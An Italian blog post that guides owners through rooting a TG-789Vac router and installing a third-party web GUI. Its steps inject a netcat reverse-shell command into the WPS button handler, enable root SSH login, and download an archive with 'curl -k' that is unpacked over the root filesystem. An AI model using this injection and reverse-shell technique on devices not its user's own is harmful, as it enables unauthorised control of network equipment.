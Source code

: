 ```yaml
---
layout: post
title:  "AdBlock su TG-789Vac"
date:   2019-02-25 00:00:00 
---
```

Il router in questione è quello bianco della foto, in Italia viene distribuito da Tim o Fastweb per abbonamenti vdsl.
<a href="/media/agtot/router.png"><img src="/media/agtot/router.png" alt="Agpwi Photo" style="float: right;" />  

Guida al Root del dispositivo, con firmware UNO aggiornato all'ultima versione (17.2). 
Se non hai ancora installato il firmware UNO eccoti la guida: [Come Flashare UNO TG-789Vac]({% post_url 2018-08-05-AGTOT-FW %})


><span style="color:red">**DISCLAIMER**</span>: Non mi ritengo responsabile per eventuali router brickati, eventuali gatti morti o guerre termonucleari dovute ad un malfunzionamento del suddetto prodotto.  

><span style="color:red">**NOTA**</span>: La procedura viene eseguita su Linux  



**Procedimento:**

1. Impostare netcat in ascolto sul proprio pccon: ```nc -lvvp 1337```

2. Loggarsi sul router in SSH usando come credenziali:
```
        -Username: engineer
        -Password: quella usata per loggarsi come admin nella webui
```
        
2. Dare questo comando: ```set uci.button.button.@wps.handler 'nc 192.168.1.X 1337 -e /bin/sh'```

3. Premere il pulsante laterale per far partire netcat 

4. Dare questi comandi sulla shell netcat aperta:
```
    set uci.button.button.@wps.handler 'wps_button_pressed.sh'
    sed -i 's#root:/bin/false#root:/bin:ash#' /etc/passwd
    uci set dropbear.lan.RootPasswordAuth='on'
    uci set dropbear.lan.RootLogin='1'
    uci commit
    /etc/init.d.dropbear restart
    passwd
```
Con il comando ```passwd``` chiedera' di inserire la password dell'utente root. 

5. Fine. Ora e' possibile loggarsi in SSH come root/password 


**Procedura per installare la gui di ansuel:**

><span style="color:red">**NOTA**</span>: Per evitare vari problemi alla ui, e' consigliabile aver gia' configurato il modem per la navigazione in internet.

1. Loggarsi sul router in SSH come root ( vedi sopra)

2. Dare i seguenti comandi:
```
    curl -k https://raw.githubusercontent.com/Ansuel/gui-dev-build-auto/master/GUI.tar.bz2 --output /tmp/GUI.tar.bz2
    bzcat /tmp/GUI.tar.bz2 | tar -C / -xvf -
    /etc/init.d/rootdevice force
```
A procedura finita, e' consigliabile riavviare il modem con ```reboot```

3. Godersi la nuova ui! (creata da ANSUEL, pagina [GitHub](https://github.com/Ansuel/tch-nginx-gui) )


**Fine**


<div id="disqus_thread"></div>
<script>

/**
*  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
*  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables*/
/*
var disqus_config = function () {
this.page.url = https://pietrotti97.com/pagine/a-router/mod-fw/2019/06/22/AGTOT-adblock.html;  // Replace PAGE_URL with your page's canonical URL variable
this.page.identifier = agtotadblock; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
};
*/
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://pietrotti97.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>




